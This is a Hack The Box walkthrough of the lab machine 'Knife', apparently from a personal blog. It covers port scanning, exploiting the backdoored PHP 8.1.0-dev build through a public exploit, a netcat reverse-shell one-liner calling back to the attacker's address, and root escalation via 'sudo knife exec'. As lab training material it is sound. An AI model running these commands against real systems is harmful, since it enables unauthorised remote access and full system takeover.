


# HTB - Knife

#### Ip: 10.10.10.242
#### Name: Knife
#### Rating: Easy

----------------------------------------------------------------------


### Enumeration

I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up:

```text
┌──(ryan㉿kali)-[~/HTB/Knife]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.242
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 11:28 CDT
Nmap scan report for 10.10.10.242
Host is up (0.071s latency).
Not shown: 65384 closed tcp ports (reset), 149 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 23.11 seconds
```  

Lets dive a bit deeper and scan ports 22 and 80 using the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Knife]
└─$ sudo nmap -sC -sV -T4 10.10.10.242 -p 22,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 11:30 CDT
Nmap scan report for 10.10.10.242
Host is up (0.068s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be549ca367c315c364717f6a534a4c21 (RSA)
|   256 bf8a3fd406e92e874ec97eab220ec0ee (ECDSA)
|_  256 1adea1cc37ce53bb1bfb2b0badb3f684 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.95 seconds
```

Because we will most likely get a foothold using a web based exploit, it never hurts to kick of a Nikto scan, and see if there is some low hanging fruit.

Looking over the results we can see Nikto identified PHP/8.1.0-dev. From past experience I recall there may have been a vulnerability or a backdoor with this version.

Heading over to Google confirms there is indeed a backdoor in this version, and it is easily exploitable. 

While is is definitely possible to exploit this backdoor manually in BurpSuite, today I'm going to utilize this exploit found on ExploitDB: https://www.exploit-db.com/exploits/49933. 

In the comments the exploit mentions:

"An early release of PHP, the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed. If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
The following exploit uses the backdoor to provide a pseudo shell on the host."

Taking a closer look at the exploit we can see that we will be appending a cmd to the user-agentt field:



Let's fire off the exploit and try and get onto the box.

### Exploitation

After copying the script to my exploits folder, I execute the exploit and get a pseudo-shell as user James. This is all well and good, but I'd prefer a proper reverse shell, that way I can keep some persistence on the box in case the pseudo-shell crashes.

To do this I simply set up a netcat listener and issue this one-liner:

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 443 >/tmp/f
```

I can now stabilize the shell using Python:

```text
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

And grab the first flag:


### Privilege Escalation

Running `sud -l` I can see that user James can run `knife` with root permissions:

```text
james@knife:~$ sudo -l
sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

According to the man-pages:

"knife  is a command-line tool that provides an interface between a local chef-repo and the Chef server."

Lets take a look at https://gtfobins.github.io/ to see if we can find a way to exploit this:



Cool, so looks like we simply have to run `sudo knife exec -E 'exec "/bin/sh"'` to escalate to root:

```text
james@knife:~$ whoami
whoami
james
james@knife:~$ 

    sudo knife exec -E 'exec "/bin/sh"'


james@knife:~$ 
james@knife:~$     sudo knife exec -E 'exec "/bin/sh"'
# # whoami
whoami
root
```

Nice! All that's left to do now is grab the root flag!


Thanks for following along!

-Ryan

--------------------------------------------------------------------------
